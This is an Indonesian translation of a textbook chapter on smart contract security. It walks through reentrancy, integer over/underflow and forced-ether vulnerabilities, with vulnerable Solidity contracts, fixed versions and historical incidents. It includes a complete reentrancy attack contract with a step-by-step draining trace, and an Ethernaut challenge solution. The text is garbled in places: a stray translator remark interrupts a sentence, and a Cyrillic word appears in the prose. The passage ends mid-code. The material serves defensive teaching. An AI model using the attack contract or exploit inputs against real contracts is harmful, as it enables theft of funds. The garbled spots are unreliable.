Seperti program lain, kontrak pintar akan mengeksekusi persis apa yang tertulis, yang tidak selalu sesuai dengan yang dimaksudkan oleh pemrogram. Lebih jauh lagi, semua kontrak pintar bersifat publik, dan setiap pengguna dapat berinteraksi dengannya hanya dengan membuat sebuah transaksi. Setiap kerentanan dapat dieksploitasi, dan kerugian hampir selalu tidak mungkin dipulihkan. Oleh karena itu, sangat penting untuk mengikuti praktik terbaik dan menggunakan pola desain yang telah teruji dengan baik.

### Praktik Terbaik Keamanan

Pemrograman defensif adalah gaya pemrograman yang sangat cocok untuk kontrak pintar. Ini menekankan hal-hal berikut, yang semuanya merupakan praktik terbaik:

  * **Minimalisme/kesederhanaan**
    Kompleksitas adalah musuh keamanan. Semakin sederhana kodenya, dan semakin sedikit yang dilakukannya, semakin rendah kemungkinan terjadinya *bug* atau efek tak terduga. Saat pertama kali terlibat dalam pemrograman kontrak pintar, pengembang sering tergoda untuk mencoba menulis banyak kode. Sebaliknya, Anda harus melihat kode kontrak pintar Anda dan mencoba menemukan cara untuk melakukan lebih sedikit, dengan lebih sedikit baris kode, lebih sedikit kompleksitas, dan lebih sedikit "fitur". Jika seseorang memberi tahu Anda bahwa proyek mereka telah menghasilkan "ribuan baris kode" untuk kontrak pintar mereka, Anda harus mempertanyakan keamanan proyek tersebut. **Lebih sederhana lebih aman.**
  * **Penggunaan kembali kode**
    Cobalah untuk tidak menciptakan kembali roda. Jika sebuah pustaka atau kontrak sudah ada yang melakukan sebagian besar dari apa yang Anda butuhkan, gunakan kembali. Di dalam kode Anda sendiri, ikuti prinsip DRY: *Don’t Repeat Yourself* (Jangan Ulangi Diri Anda). Jika Anda melihat cuplikan kode diulang lebih dari sekali, tanyakan pada diri sendiri apakah itu bisa ditulis sebagai fungsi atau pustaka dan digunakan kembali. Kode yang telah digunakan dan diuji secara ekstensif kemungkinan lebih aman daripada kode baru yang Anda tulis. Waspadalah terhadap sindrom “Tidak Diciptakan di Sini” (*“Not Invented Here” syndrome*), di mana Anda tergoda untuk “meningkatkan” fitur atau komponen dengan membangunnya dari awal. Risiko keamanan seringkali lebih besar daripada nilai peningkatannya.
  * **Kualitas kode**
    Kode kontrak pintar tidak kenal ampun. Setiap *bug* dapat menyebabkan kerugian moneter. Anda tidak boleh memperlakukan pemrograman kontrak pintar sama seperti pemrograman tujuan umum. Menulis DApps di Solidity tidak seperti membuat *widget* web di JavaScript. Sebaliknya, Anda harus menerapkan metodologi rekayasa dan pengembangan perangkat lunak yang ketat, seperti yang akan Anda lakukan di rekayasa dirgantara atau disiplin lain yang sama-sama tidak kenal ampun. Setelah Anda "meluncurkan" kode Anda, hanya sedikit yang bisa Anda lakukan untuk memperbaiki masalah apa pun.
  * **Keterbacaan/auditabilitas**
    Kode Anda harus jelas dan mudah dipahami. Semakin mudah dibaca, semakin mudah diaudit. Kontrak pintar bersifat publik, karena semua orang dapat membaca *bytecode* dan siapa pun dapat merekayasa baliknya. Oleh karena itu, akan bermanfaat untuk mengembangkan pekerjaan Anda di depan umum, menggunakan metodologi kolaboratif dan sumber terbuka, untuk memanfaatkan kearifan kolektif komunitas pengembang dan mendapat manfaat dari standar tertinggi pengembangan sumber terbuka. Anda harus menulis kode yang didokumentasikan dengan baik dan mudah dibaca, mengikuti gaya dan konvensi penamaan yang merupakan bagian dari komunitas Ethereum.
  * **Cakupan pengujian**
    Uji semua yang Anda bisa. Kontrak pintar berjalan di lingkungan eksekusi publik, di mana siapa pun dapat mengeksekusinya dengan input apa pun yang mereka inginkan. Anda tidak boleh berasumsi bahwa input, seperti argumen fungsi, terbentuk dengan baik, dibatasi dengan benar, atau memiliki tujuan yang baik. Uji semua argumen untuk memastikan mereka berada dalam rentang yang diharapkan dan diformat dengan benar sebelum mengizinkan eksekusi kode Anda untuk berlanjut.

### Risiko Keamanan dan Antipattern

Sebagai pemrogram kontrak pintar, Anda harus akrab dengan risiko keamanan yang paling umum, agar dapat mendeteksi dan menghindari pola pemrograman yang membuat kontrak Anda terpapar risiko ini. Di beberapa bagian berikutnya kita akan melihat berbagai risiko keamanan, contoh bagaimana kerentanan dapat muncul, dan tindakan penanggulangan atau solusi preventif yang dapat digunakan untuk mengatasinya.

#### Reentrancy

Salah satu fitur kontrak pintar Ethereum adalah kemampuannya untuk memanggil dan memanfaatkan kode dari kontrak eksternal lainnya. Kontrak juga biasanya menangani ether, dan karena itu sering mengirim ether ke berbagai alamat pengguna eksternal. Operasi ini mengharuskan kontrak untuk mengirimkan panggilan eksternal. Panggilan eksternal ini dapat dibajak oleh penyerang, yang dapat memaksa kontrak untuk mengeksekusi kode lebih lanjut (melalui fungsi *fallback*), termasuk panggilan kembali ke diri mereka sendiri. Serangan jenis ini digunakan dalam peretasan DAO yang terkenal.

Untuk bacaan lebih lanjut tentang serangan *reentrancy*, lihat postingan blog Gus Guimareas tentang subjek tersebut dan Praktik Terbaik Kontrak Pintar Ethereum.

##### Kerentanan

Jenis serangan ini dapat terjadi ketika sebuah kontrak mengirim ether ke alamat yang tidak dikenal. Seorang penyerang dapat dengan cermat membuat sebuah kontrak di alamat eksternal yang berisi kode jahat di fungsi *fallback*. Dengan demikian, ketika sebuah kontrak mengirim ether ke alamat ini, ia akan memanggil kode jahat tersebut. Biasanya kode jahat mengeksekusi sebuah fungsi pada kontrak yang rentan, melakukan operasi yang tidak diharapkan oleh pengembang. Istilah “*reentrancy*” (masuk kembali) berasal dari fakta bahwa kontrak jahat eksternal memanggil sebuah fungsi pada kontrak yang rentan dan jalur eksekusi kode “masuk kembali” ke dalamnya.

Untuk memperjelas ini, pertimbangkan kontrak rentan sederhana di Contoh 9-1, yang bertindak sebagai brankas Ethereum yang memungkinkan deposan untuk menarik hanya 1 ether per minggu.

**Contoh 9-1. EtherStore.sol**

```solidity
1 contract EtherStore {
2
3   uint256 public withdrawalLimit = 1 ether;
4   mapping(address => uint256) public lastWithdrawTime;
5   mapping(address => uint256) public balances;
6
7   function depositFunds() public payable {
8     balances[msg.sender] += msg.value;
9   }
10
11  function withdrawFunds (uint256 _weiToWithdraw) public {
12    require(balances[msg.sender] >= _weiToWithdraw);
13    // batasi jumlah penarikan
14    require(_weiToWithdraw <= withdrawalLimit);
15    // batasi waktu yang diizinkan untuk menarik
16    require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
17    require(msg.sender.call.value(_weiToWithdraw)());
18    balances[msg.sender] -= _weiToWithdraw;
19    lastWithdrawTime[msg.sender] = now;
20  }
21 }
```

Kontrak ini memiliki dua fungsi publik, `depositFunds` dan `withdrawFunds`. Fungsi `depositFunds` hanya menambah saldo pengirim. Fungsi `withdrawFunds` memungkinkan pengirim untuk menentukan jumlah wei yang akan ditarik. Fungsi ini dimaksudkan untuk berhasil hanya jika jumlah yang diminta untuk ditarik kurang dari 1 ether dan penarikan belum terjadi dalam seminggu terakhir.

Kerentanannya ada di baris 17, di mana kontrak mengirimkan jumlah ether yang diminta pengguna. Pertimbangkan seorang penyerang yang telah membuat kontrak di Contoh 9-2.

**Contoh 9-2. Attack.sol**

```solidity
1 import "EtherStore.sol";
2
3 contract Attack {
4   EtherStore public etherStore;
5
6   // inisialisasi variabel etherStore dengan alamat kontrak
7   constructor(address _etherStoreAddress) public {
8     etherStore = EtherStore(_etherStoreAddress);
9   }
10
11  function attackEtherStore() public payable {
12    // serang hingga ether terdekat
13    require(msg.value >= 1 ether);
14    // kirim eth ke fungsi depositFunds()
15    etherStore.depositFunds.value(1 ether)();
16    // mulai keajaiban
17    etherStore.withdrawFunds(1 ether);
18  }
19
20  function collectEther() public {
21    msg.sender.transfer(address(this).balance);
22  }
23
24  // fungsi fallback - di mana keajaiban terjadi
25  function () public payable {
26    if (address(etherStore).balance > 1 ether) {
27      etherStore.withdrawFunds(1 ether);
28    }
29  }
30 }
```

Bagaimana eksploitasi bisa terjadi? Pertama, penyerang akan membuat kontrak jahat (katakanlah di alamat `0x0...123`) dengan alamat kontrak `EtherStore` sebagai satu-satunya parameter konstruktor. Ini akan menginisialisasi dan menunjuk variabel publik `etherStore` ke kontrak yang akan diserang.

Penyerang kemudian akan memanggil fungsi `attackEtherStore`, dengan sejumlah ether lebih besar dari atau sama dengan 1—mari kita asumsikan 1 ether untuk saat ini. Dalam contoh ini, kami juga akan mengasumsikan sejumlah pengguna lain telah menyetor ether ke dalam kontrak ini, sehingga saldo saat ini adalah 10 ether. Berikut ini akan terjadi:

1.  `Attack.sol`, baris 15: Fungsi `depositFunds` dari kontrak `EtherStore` akan dipanggil dengan `msg.value` sebesar 1 ether (dan banyak gas). Pengirim (`msg.sender`) akan menjadi kontrak jahat (`0x0...123`). Jadi, `balances[0x0..123] = 1 ether`.
2.  `Attack.sol`, baris 17: Kontrak jahat kemudian akan memanggil fungsi `withdrawFunds` dari kontrak `EtherStore` dengan parameter 1 ether. Ini akan melewati semua persyaratan (baris 12–16 dari kontrak `EtherStore`) karena tidak ada penarikan sebelumnya yang telah dibuat.
3.  `EtherStore.sol`, baris 17: Kontrak akan mengirim 1 ether kembali ke kontrak jahat.
4.  `Attack.sol`, baris 25: Pembayaran ke kontrak jahat kemudian akan mengeksekusi fungsi *fallback*.
5.  `Attack.sol`, baris 26: Saldo total kontrak `EtherStore` adalah 10 ether dan sekarang menjadi 9 ether, jadi pernyataan `if` ini lolos.
6.  `Attack.sol`, baris 27: Fungsi *fallback* memanggil fungsi `withdrawFunds` `EtherStore` lagi dan masuk kembali ke kontrak `EtherStore`.
7.  `EtherStore.sol`, baris 11: Dalam panggilan kedua ke `withdrawFunds` ini, saldo kontrak penyerang masih 1 ether karena baris 18 belum dieksekusi. Jadi, kita masih memiliki `balances[0x0..123] = 1 ether`. Hal ini juga berlaku untuk variabel `lastWithdrawTime`. Sekali lagi, kita melewati semua persyaratan.
8.  `EtherStore.sol`, baris 17: Kontrak penyerang menarik 1 ether lagi.
9.  Langkah 4–8 berulang sampai tidak lagi `address(etherStore).balance > 1`, seperti yang ditentukan oleh baris 26 di `Attack.sol`.
10. `Attack.sol`, baris 26: Setelah tersisa 1 (atau kurang) ether di kontrak `EtherStore`, pernyataan `if` ini akan gagal. Ini kemudian akan memungkinkan baris 18 dan 19 dari kontrak `EtherStore` untuk dieksekusi (untuk setiap panggilan ke fungsi `withdrawFunds`).
11. `EtherStore.sol`, baris 18 dan 19: Pemetaan `balances` dan `lastWithdrawTime` akan diatur dan eksekusi akan berakhir.

Hasil akhirnya adalah penyerang telah menarik semua kecuali 1 ether dari kontrak `EtherStore` dalam satu transaksi.

##### Teknik Pencegahan

Ada sejumlah teknik umum yang membantu menghindari potensi kerentanan *reentrancy* dalam kontrak pintar. Yang pertama adalah (bila memungkinkan) menggunakan fungsi `transfer` bawaan saat mengirim ether ke kontrak eksternal. Fungsi `transfer` hanya mengirim 2300 gas dengan panggilan eksternal, yang tidak cukup bagi alamat/kontrak tujuan untuk memanggil kontrak lain (yaitu, masuk kembali ke kontrak pengirim).

Teknik kedua adalah memastikan bahwa semua logika yang mengubah variabel keadaan terjadi **sebelum** ether dikirim keluar dari kontrak (atau panggilan eksternal apa pun). Dalam contoh `EtherStore`, baris 18 dan 19 dari `EtherStore.sol` harus diletakkan sebelum baris 17. Merupakan praktik yang baik bagi setiap kode yang melakukan panggilan eksternal ke alamat yang tidak dikenal untuk menjadi operasi terakhir dalam fungsi atau potongan eksekusi kode yang terlokalisasi. Ini dikenal sebagai **pola *checks-effects-interactions***.

Teknik ketiga adalah memperkenalkan **mutex**—yaitu, menambahkan variabel keadaan yang mengunci kontrak selama eksekusi kode, mencegah panggilan masuk kembali.

Menerapkan semua teknik ini (menggunakan ketiganya tidak perlu, tetapi kami melakukannya untuk tujuan demonstrasi) pada `EtherStore.sol`, memberikan kontrak yang bebas *reentrancy*:

```solidity
1 contract EtherStore {
2
3   // inisialisasi mutex
4   bool reEntrancyMutex = false;
5   uint256 public withdrawalLimit = 1 ether;
6   mapping(address => uint256) public lastWithdrawTime;
7   mapping(address => uint256) public balances;
8
9   function depositFunds() public payable {
10    balances[msg.sender] += msg.value;
11  }
12
13  function withdrawFunds (uint256 _weiToWithdraw) public {
14    require(!reEntrancyMutex);
15    require(balances[msg.sender] >= _weiToWithdraw);
16    // batasi jumlah penarikan
17    require(_weiToWithdraw <= withdrawalLimit);
18    // batasi waktu yang diizinkan untuk menarik
19    require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
20
21    balances[msg.sender] -= _weiToWithdraw;
22    lastWithdrawTime[msg.sender] = now;
23
24    // setel mutex reEntrancy sebelum panggilan eksternal
25    reEntrancyMutex = true;
26    msg.sender.transfer(_weiToWithdraw);
27    // lepaskan mutex setelah panggilan eksternal
28    reEntrancyMutex = false;
29  }
30 }
```

##### Contoh Dunia Nyata: The DAO

Serangan DAO (Decentralized Autonomous Organization) adalah salah satu peretasan besar yang terjadi pada awal pengembangan Ethereum. Pada saat itu, kontrak tersebut menyimpan lebih dari $150 juta. *Reentrancy* memainkan peran utama dalam serangan itu, yang pada akhirnya menyebabkan *hard fork* yang menciptakan Ethereum Classic (ETC). Untuk analisis yang baik tentang eksploitasi DAO, lihat [http://bit.ly/2EQaLCI](http://bit.ly/2EQaLCI). Informasi lebih lanjut tentang sejarah *fork* Ethereum, garis waktu peretasan DAO, dan kelahiran ETC dalam *hard fork* dapat ditemukan di Lampiran B.

#### Over/Underflow Aritmetika

Ethereum Virtual Machine menetapkan tipe data berukuran tetap untuk integer. Ini berarti bahwa variabel integer hanya dapat merepresentasikan rentang angka tertentu. `uint8`, misalnya, hanya dapat menyimpan angka dalam rentang [0,255]. Mencoba menyimpan 256 ke dalam `uint8` akan menghasilkan 0. Jika tidak hati-hati, variabel di Solidity dapat dieksploitasi jika input pengguna tidak diperiksa dan perhitungan dilakukan yang menghasilkan angka yang berada di luar rentang tipe data yang menyimpannya.

Untuk bacaan lebih lanjut tentang *over/underflow* aritmetika, lihat “Cara Mengamankan Kontrak Pintar Anda”, Praktik Terbaik Kontrak Pintar Ethereum, dan “Ethereum, Solidity dan *integer overflow*: memprogram blockchain seperti tahun 1970”.

##### Kerentanan

*Over/underflow* terjadi ketika sebuah operasi dilakukan yang mengharuskan variabel berukuran tetap untuk menyimpan angka (atau potongan data) yang berada di luar rentang tipe data variabel tersebut.

Misalnya, mengurangkan 1 dari variabel `uint8` (integer tak bertanda 8 bit; yaitu, non-negatif) yang nilainya 0 akan menghasilkan angka 255. Ini adalah **underflow**. Kita telah menetapkan angka di bawah rentang `uint8`, sehingga hasilnya berputar dan memberikan angka terbesar yang bisa disimpan `uint8`. Demikian pula, menambahkan $2^8=256$ ke `uint8` akan membuat variabel tidak berubah, karena kita telah berputar sepanjang rentang `uint`.

Menambahkan angka yang lebih besar dari rentang tipe data disebut **overflow**. Untuk kejelasan, menambahkan 257 ke `uint8` yang saat ini bernilai 0 akan menghasilkan angka 1. Terkadang instruktif untuk menganggap variabel berukuran tetap sebagai siklik, di mana kita mulai lagi dari nol jika kita menambahkan angka di atas angka terbesar yang mungkin disimpan, dan mulai menghitung mundur dari angka terbesar jika kita mengurangi dari nol. Dalam kasus tipe `int` bertanda, yang dapat merepresentasikan angka negatif, kita mulai lagi setelah mencapai nilai negatif terbesar; misalnya, jika kita mencoba mengurangi 1 dari `int8` yang nilainya -128, kita akan mendapatkan 127.

Masalah numerik semacam ini memungkinkan penyerang untuk menyalahgunakan kode dan menciptakan alur logika yang tidak terduga. Misalnya, pertimbangkan kontrak `TimeLock` di Contoh 9-3.

**Contoh 9-3. TimeLock.sol**

```solidity
1 contract TimeLock {
2
3   mapping(address => uint) public balances;
4   mapping(address => uint) public lockTime;
5
6   function deposit() public payable {
7     balances[msg.sender] += msg.value;
8     lockTime[msg.sender] = now + 1 weeks;
9   }
10
11  function increaseLockTime(uint _secondsToIncrease) public {
12    lockTime[msg.sender] += _secondsToIncrease;
13  }
14
15  function withdraw() public {
16    require(balances[msg.sender] > 0);
17    require(now > lockTime[msg.sender]);
18    balances[msg.sender] = 0;
19    msg.sender.transfer(address(this).balance);
20  }
21 }
```

Kontrak ini dirancang untuk bertindak seperti brankas waktu: pengguna dapat menyetor ether ke dalam kontrak dan akan terkunci di sana setidaknya selama seminggu. Pengguna dapat memperpanjang waktu tunggu lebih dari 1 minggu jika mereka memilih, tetapi setelah disetor, pengguna dapat yakin ether mereka terkunci dengan aman setidaknya selama seminggu—atau begitulah maksud kontrak ini.

Jika seorang pengguna terpaksa menyerahkan kunci privatnya, kontrak seperti ini mungkin berguna untuk memastikan ether mereka tidak dapat diperoleh untuk waktu yang singkat. Tetapi jika seorang pengguna telah mengunci 100 ether di kontrak ini dan menyerahkan kuncinya kepada seorang penyerang, penyerang dapat menggunakan *overflow* untuk menerima ether tersebut, terlepas dari `lockTime`.

Penyerang dapat menentukan `lockTime` saat ini untuk alamat yang sekarang mereka pegang kuncinya (itu adalah variabel publik). Mari kita sebut ini `userLockTime`. Mereka kemudian bisa memanggil fungsi `increaseLockTime` dan memberikan argumen angka $2^{256}$ - `userLockTime`. Angka ini akan ditambahkan ke `userLockTime` saat ini dan menyebabkan *overflow*, mengatur ulang `lockTime[msg.sender]` menjadi 0. Penyerang kemudian bisa langsung memanggil fungsi `withdraw` untuk mendapatkan hadiahnya.

Mari kita lihat contoh lain (Contoh 9-4), yang ini dari tantangan Ethernaut. **PERINGATAN SPOILER:** Jika Anda belum melakukan tantangan Ethernaut, ini memberikan solusi untuk salah satu levelnya.

**Contoh 9-4. Contoh kerentanan underflow dari tantangan Ethernaut**

```solidity
1 pragma solidity ^0.4.18;
2
3 contract Token {
4
5   mapping(address => uint) balances;
6   uint public totalSupply;
7
8   function Token(uint _initialSupply) public {
9     balances[msg.sender] = totalSupply = _initialSupply;
10  }
11
12  function transfer(address _to, uint _value) public returns (bool) {
13    require(balances[msg.sender] - _value >= 0);
14    balances[msg.sender] -= _value;
15    balances[_to] += _value;
16    return true;
17  }
18
19  function balanceOf(address _owner) public constant returns (uint balance) {
20    return balances[_owner];
21  }
22 }
```

Ini adalah kontrak token sederhana yang menggunakan fungsi `transfer`, memungkinkan peserta untuk memindahkan token mereka. Bisakah Anda melihat kesalahan di kontrak ini?

Celahnya ada di fungsi `transfer`. Pernyataan `require` di baris 13 dapat dilewati menggunakan *underflow*. Pertimbangkan pengguna dengan saldo nol. Mereka bisa memanggil fungsi `transfer` dengan `_value` non-nol dan melewati pernyataan `require` di baris 13. Ini karena `balances[msg.sender]` adalah 0 (dan `uint256`), jadi mengurangkan jumlah positif apa pun (kecuali $2^{256}$) akan menghasilkan angka positif, seperti yang dijelaskan sebelumnya. Ini juga berlaku untuk baris 14, di mana saldo akan dikreditkan dengan angka positif. Jadi, dalam contoh ini, seorang penyerang dapat memperoleh token gratis karena kerentanan *underflow*.

##### Teknik Pencegahan

Teknik konvensional saat ini untuk menjaga dari kerentanan *under/overflow* adalah dengan menggunakan atau membangun pustaka matematika yang menggantikan operator matematika standar penjumlahan, pengurangan, dan perkalian (pembagian dikecualikan karena tidak menyebabkan *over/underflow* dan EVM mengembalikan kesalahan saat pembagian dengan 0).

OpenZeppelin telah melakukan pekerjaan yang hebat dalam membangun dan mengaudit pustaka yang aman untuk komunitas Ethereum. Secara khusus, pustaka **SafeMath** mereka dapat digunakan untuk menghindari kerentanan *under/overflow*.

Untuk mendemonstrasikan bagaimana pustaka ini digunakan di Solidity, mari kita perbaiki kontrak `TimeLock` menggunakan pustaka `SafeMath`. Versi kontrak yang bebas *overflow* adalah:

```solidity
1 library SafeMath {
2
3   function mul(uint256 a, uint256 b) internal pure returns (uint256) {
4     if (a == 0) {
5       return 0;
6     }
7     uint256 c = a * b;
8     assert(c / a == b);
9     return c;
10  }
11
12  function div(uint256 a, uint256 b) internal pure returns (uint256) {
13    // assert(b > 0); // Solidity secara otomatis melempar kesalahan saat membagi dengan 0
14    uint256 c = a / b;
15    // assert(a == b * c + a % b); // Ini berlaku dalam semua kasus
16    return c;
17  }
18
19  function sub(uint256 a, uint256 b) internal pure returns (uint256) {
20    assert(b <= a);
21    return a - b;
22  }
23
24  function add(uint256 a, uint256 b) internal pure returns (uint256) {
25    uint256 c = a + b;
26    assert(c >= a);
27    return c;
28  }
29 }
30
31 contract TimeLock {
32  using SafeMath for uint; // gunakan pustaka untuk tipe uint
33  mapping(address => uint256) public balances;
34  mapping(address => uint256) public lockTime;
35
36  function deposit() public payable {
37    balances[msg.sender] = balances[msg.sender].add(msg.value);
38    lockTime[msg.sender] = now.add(1 weeks);
39  }
40
41  function increaseLockTime(uint256 _secondsToIncrease) public {
42    lockTime[msg.sender] = lockTime[msg.sender].add(_secondsToIncrease);
43  }
44
45  function withdraw() public {
46    require(balances[msg.sender] > 0);
47    require(now > lockTime[msg.sender]);
48    uint256 amount = balances[msg.sender];
49    balances[msg.sender] = 0;
50    msg.sender.transfer(amount);
51  }
52 }
```

Perhatikan bahwa semua operasi matematika standar telah digantikan oleh yang didefinisikan di pustaka `SafeMath`. Kontrak `TimeLock` tidak lagi melakukan operasi apa pun yang mampu mengalami *under/overflow*.

##### Contoh Dunia Nyata: PoWHC dan Batch Transfer Overflow (CVE-2018–10299)

Proof of Weak Hands Coin (PoWHC), awalnya dirancang sebagai lelucon, adalah skema Ponzi yang ditulis oleh sebuah kolektif internet. Sayangnya, tampaknya penulis kontrak tersebut belum pernah melihat *over/underflow* sebelumnya, dan akibatnya 866 ether dibebaskan dari kontraknya. Eric Banisadr memberikan gambaran yang baik tentang bagaimana *underflow* terjadi (yang tidak terlalu berbeda dari tantangan Ethernaut yang dijelaskan sebelumnya) di postingan blognya tentang peristiwa tersebut.

Contoh lain berasal dari implementasi fungsi `batchTransfer()` ke dalam sekelompok kontrak token ERC20. Implementasi tersebut berisi kerentanan *overflow*; Anda dapat membaca detailnya di laporan PeckShield.

#### Ether Tak Terduga

Biasanya, ketika ether dikirim ke sebuah kontrak, ia harus mengeksekusi fungsi *fallback* atau fungsi lain yang didefinisikan di dalam kontrak. Ada dua pengecualian untuk ini, di mana ether bisa ada di dalam kontrak tanpa mengeksekusi kode apa pun. Kontrak yang mengandalkan eksekusi kode untuk semua ether yang dikirim kepadanya bisa rentan terhadap serangan di mana ether dikirim secara paksa.

Untuk bacaan lebih lanjut tentang ini, lihat “Cara Mengamankan Kontrak Pintar Anda” dan “Pola Keamanan Solidity - Memaksa Ether ke Kontrak”.

##### Kerentanan

Teknik pemrograman defensif yang umum dan berguna dalam menegakkan transisi keadaan yang benar atau memvalidasi operasi adalah **pemeriksaan invarian**. Teknik ini melibatkan pendefinisian seperangkat invarian (metrik atau parameter yang tidak boleh berubah) dan memeriksa bahwa mereka tetap tidak berubah setelah satu (atau banyak) operasi. Ini biasanya desain yang baik, asalkan invarian yang diperiksa memang benar-benar invarian.

Satu contoh invarian adalah `totalSupply` dari token ERC20 dengan penerbitan tetap. Karena tidak ada fungsi yang boleh memodifikasi invarian ini, seseorang dapat menambahkan pemeriksaan ke fungsi `transfer` untuk memastikan `totalSupply` tetap tidak dimodifikasi, untuk menjamin fungsi bekerja seperti yang diharapkan.

Secara khusus, ada satu invarian yang tampaknya menggoda untuk digunakan tetapi sebenarnya dapat dimanipulasi oleh pengguna eksternal (terlepas dari aturan yang diberlakukan di kontrak pintar). Ini adalah **ether saat ini yang disimpan di dalam kontrak**. Seringkali ketika pengembang pertama kali belajar Solidity, mereka memiliki kesalahpahaman bahwa sebuah kontrak hanya dapat menerima atau memperoleh ether melalui fungsi `payable`. Kesalahpahaman ini dapat menyebabkan kontrak yang memiliki asumsi salah tentang saldo ether di dalamnya, yang dapat menyebabkan berbagai kerentanan. Bukti nyata untuk kerentanan ini adalah penggunaan `address(this).balance` yang (salah).

Ada dua cara di mana ether dapat (secara paksa) dikirim ke sebuah kontrak tanpa menggunakan fungsi `payable` atau mengeksekusi kode apa pun di kontrak tersebut:

  * **Self-destruct/suicide**
    Setiap kontrak dapat mengimplementasikan fungsi `selfdestruct`, yang menghapus semua *bytecode* dari alamat kontrak dan mengirim semua ether yang tersimpan di sana ke alamat yang ditentukan parameter. Jika alamat yang ditentukan ini juga sebuah kontrak, tidak ada fungsi (termasuk *fallback*) yang dipanggil. Oleh karena itu, fungsi `selfdestruct` dapat digunakan untuk secara paksa mengirim ether ke kontrak mana pun terlepas dari kode apa pun yang mungkin ada di kontrak, bahkan kontrak tanpa fungsi `payable`. Ini berarti setiap penyerang dapat membuat kontrak dengan fungsi `selfdestruct`, mengirim ether ke sana, memanggil `selfdestruct(target)` dan memaksa ether untuk dikirim ke kontrak target. Martin Swende memiliki postingan blog yang sangat baik yang menjelaskan beberapa keanehan dari *opcode* `selfdestruct` (Keanehan \#2) bersama dengan laporan tentang bagaimana *node* klien memeriksa invarian yang salah, yang bisa menyebabkan crash yang cukup katastropik di jaringan Ethereum.
  * **Ether yang dikirim sebelumnya**
    Cara lain untuk memasukkan ether ke dalam kontrak adalah dengan memuat alamat kontrak dengan ether terlebih dahulu. Alamat kontrak bersifat deterministik—faktanya, alamat dihitung dari hash Keccak-256 (umumnya sinonim dengan SHA-3) dari alamat yang membuat kontrak dan nonce transaksi yang membuat kontrak. Secara spesifik, bentuknya adalah `address = sha3(rlp.encode([account_address, transaction_nonce]))` (lihat diskusi Adrian Manning tentang “Ether Tanpa Kunci” untuk beberapa kasus penggunaan yang menyenangkan dari ini). Ini berarti siapa pun dapat menghitung apa alamat kontrak nantinya sebelum dibuat dan mengirim ether ke alamat itu. Ketika kontrak dibuat, ia akan memiliki saldo ether non-nol.

Mari kita jelajahi beberapa jebakan yang bisa muncul dengan pengetahuan ini. Pertimbangkan kontrak yang terlalu sederhana di Contoh 9-5.

**Contoh 9-5. EtherGame.sol**

```solidity
1 contract EtherGame {
2
3   uint public payoutMileStone1 = 3 ether;
4   uint public mileStone1Reward = 2 ether;
5   uint public payoutMileStone2 = 5 ether;
6   uint public mileStone2Reward = 3 ether;
7   uint public finalMileStone = 10 ether;
8   uint public finalReward = 5 ether;
9
10  mapping(address => uint) redeemableEther;
11  // Pengguna membayar 0.5 ether. Pada milestone tertentu, kreditkan akun mereka.
12  function play() public payable {
13    require(msg.value == 0.5 ether); // setiap permainan adalah 0.5 ether
14    uint currentBalance = address(this).balance + msg.value;
15    // pastikan tidak ada pemain setelah permainan selesai
16    require(currentBalance <= finalMileStone);
17    // jika berada di milestone, kreditkan akun pemain
18    if (currentBalance == payoutMileStone1) {
19      redeemableEther[msg.sender] += mileStone1Reward;
20    }
21    else if (currentBalance == payoutMileStone2) {
22      redeemableEther[msg.sender] += mileStone2Reward;
23    }
24    else if (currentBalance == finalMileStone ) {
25      redeemableEther[msg.sender] += finalReward;
26    }
27    return;
28  }
29
30  function claimReward() public {
31    // pastikan permainan selesai
32    require(address(this).balance == finalMileStone);
33    // pastikan ada hadiah untuk diberikan
34    require(redeemableEther[msg.sender] > 0);
35    uint256 transferValue = redeemableEther[msg.sender];
36    redeemableEther[msg.sender] = 0;
37    msg.sender.transfer(transferValue);
38  }
39 }
```

Kontrak ini merepresentasikan permainan sederhana (yang secara alami akan melibatkan *race condition*) di mana pemain mengirim 0,5 ether ke kontrak dengan harapan menjadi pemain pertama yang mencapai salah satu dari tiga tonggak pencapaian (*milestone*). *Milestone* dinyatakan dalam ether. Yang pertama mencapai *milestone* dapat mengklaim sebagian ether ketika permainan telah berakhir. Permainan berakhir ketika *milestone* terakhir (10 ether) tercapai; pengguna kemudian dapat mengklaim hadiah mereka.

Masalah dengan kontrak `EtherGame` berasal dari penggunaan `address(this).balance` yang buruk di baris 14 (dan secara asosiasi 16) dan 32. Seorang penyerang yang usil bisa secara paksa Tentu, ini adalah kelanjutan dari terjemahan bab ini.

mengirimkan sejumlah kecil ether—katakanlah, 0,1 ether—melalui fungsi `selfdestruct` (dibahas sebelumnya) untuk mencegah pemain masa depan mencapai *milestone*. `address(this).balance` tidak akan pernah menjadi kelipatan 0,5 ether berkat kontribusi 0,1 ether ini, karena semua pemain yang sah hanya dapat mengirim dalam kelipatan 0,5 ether. Ini mencegah semua kondisi `if` di baris 18, 21, dan 24 menjadi benar.

Lebih buruk lagi, seorang penyerang pendendam yang melewatkan sebuah *milestone* dapat secara paksa mengirim 10 ether (atau jumlah ether yang setara yang mendorong saldo kontrak di atas `finalMileStone`), yang akan mengunci semua hadiah di dalam kontrak selamanya. Ini karena fungsi `claimReward` akan selalu gagal, karena `require` di baris 32 (yaitu, karena `address(this).balance` lebih besar dari `finalMileStone`).

##### Teknik Pencegahan

Jenis kerentanan ini biasanya muncul dari penyalahgunaan `address(this).balance`. Logika kontrak, bila memungkinkan, harus menghindari ketergantungan pada nilai pasti dari saldo kontrak, karena dapat dimanipulasi secara artifisial. Jika menerapkan logika berdasarkan `address(this).balance`, Anda harus mengatasi saldo yang tidak terduga.

Jika nilai pasti dari ether yang disetor diperlukan, variabel yang didefinisikan sendiri harus digunakan yang dinaikkan nilainya dalam fungsi `payable`, untuk melacak ether yang disetor dengan aman. Variabel ini не akan terpengaruh oleh ether yang dikirim secara paksa melalui panggilan `selfdestruct`.

Dengan pemikiran ini, versi yang diperbaiki dari kontrak `EtherGame` bisa terlihat seperti ini:

```solidity
1 contract EtherGame {
2
3   uint public payoutMileStone1 = 3 ether;
4   uint public mileStone1Reward = 2 ether;
5   uint public payoutMileStone2 = 5 ether;
6   uint public mileStone2Reward = 3 ether;
7   uint public finalMileStone = 10 ether;
8   uint public finalReward = 5 ether;
9   uint public depositedWei;
10
11  mapping (address => uint) redeemableEther;
12
13  function play() public payable {
14    require(msg.value == 0.5 ether);
15    uint currentBalance = depositedWei + msg.value;
16    // pastikan tidak ada pemain setelah permainan selesai
17    require(currentBalance <= finalMileStone);
18    if (currentBalance == payoutMileStone1) {
19      redeemableEther[msg.sender] += mileStone1Reward;
